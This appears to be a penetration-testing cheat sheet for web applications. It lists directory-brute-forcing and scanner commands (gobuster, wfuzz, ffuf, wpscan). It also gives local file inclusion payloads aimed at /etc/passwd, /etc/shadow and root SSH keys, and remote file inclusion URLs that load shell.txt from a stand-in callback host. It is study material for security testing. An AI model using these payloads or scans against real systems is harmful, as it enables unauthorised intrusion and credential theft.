 
## Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!

## 

## Common Wordlists to use for Web App Scanning: 

Common Wordlists to use for Web Directory Scanning: 
- /usr/share/wordlists/dirb/common.txt
- /usr/share/wordlists/dirbuster/*.txt
- /usr/share/wordlists/wfuzz/general/*.txt
- /usr/share/seclists/Discovery/Web-Content/

Common Wordlists to use for User Enumeration Scanning: 
- /usr/share/seclists/Usernames
- /usr/share/wordlists/dirbuster/apache-user-enum-2.0

## Web App Scanners

Nikto: 

- nikto --url (domain)
- nikto -o exampleoutputfile.nikto -Format txt -host https://www.example.com


Wpscan:

- wpscan --url (domain)
- wpscan --url (domain) --enumerate ap at (All Plugins, All Themes)
- wpscan --url (domain) --enumerate u (Usernames)
- wpscan --url (domain) --enumerate v

Web Tools for Directory Scanning: 



Dirb: 

- dirb (domain)
- dirb (domain) (wordlist)

Gobuster: 

- gobuster dir -u (url) -w /usr/share/wordlists/(Wordlist file)
- gobuster dir -u (url) -w /usr/share/wordlists/(Wordlist file) -a Firefox (Custom Agent)
- gobuster dir -u (url) -w /usr/share/wordlists/(Wordlist file) -x .php,.txt,.html
- gobuster dir -u (url) -w /usr/share/wordlists/(Wordlist file) -x .php,.txt,.html -s "200"
- gobuster dir -e -u (url) -w /usr/share/wordlists/(Wordlist file) -x .php,.txt,.html -s "200"
- gobuster dir -v -e -u (url) -w /usr/share/wordlists/(Wordlist file) -x .php,.txt,.html -s "200"
- gobuster dir -v -e -u (url) -w /usr/share/wordlists/(Wordlist file) -x .php,.txt,.html -s "200" -o output.txt
- gobuster dir -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'
- gobuster dir -v -u https://www.restoration1.com/ -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -s "200" -o restoration1.gobuster

Wfuzz:

- wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ
- wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ
- wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ"  --hc 302 http://testphp.vulnweb.com/userinfo.php (Post Requests)

- wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ (Fuzzing Cookies)

Dirsearch: 

- dirsearch /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 172.21.0.0 -e php

FFuF:

- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0
- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -b "COOKIE VALUE; security=low" -u http://172.21.0.0
- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0 -fc 403, 302, 200
- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -H "Host: 172.21.0.0" -u http://172.21.0.0
- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0 -timeout 5


Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan
- Feroxbuster


## A simple web crawler/spider:

#mkdir -p /tmp/test1

#cd /tmp/test1

#wget -r -l 5 http://www.xxx.com/index.html; grep -nR -i keyword www.xxx.com | tee ./report.txt


## HTTPrint Banner Grab:

HTTPrint is a tool helping carry out an automatic Banner Grabbing.

Examples are shown below:

* httprint -P0 -s /usr/share/httprint/signatures.txt -h 1.2.3.4
* httprint -P0 -s /usr/share/httprint/signatures.txt -h https://1.2.3.4


## Testing for LFI: 

https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf

Examples: 

http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd

Interesting Files:

Linux:
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa

Windows:

Windows:
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM



## Testing for RFI: 

http://example.com/index.php?page=http://callback.com/shell.txt
http://example.com/index.php?page=http://callback.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt

## Resources

- Turning LFI to RFI: https://l.avala.mp/?p=241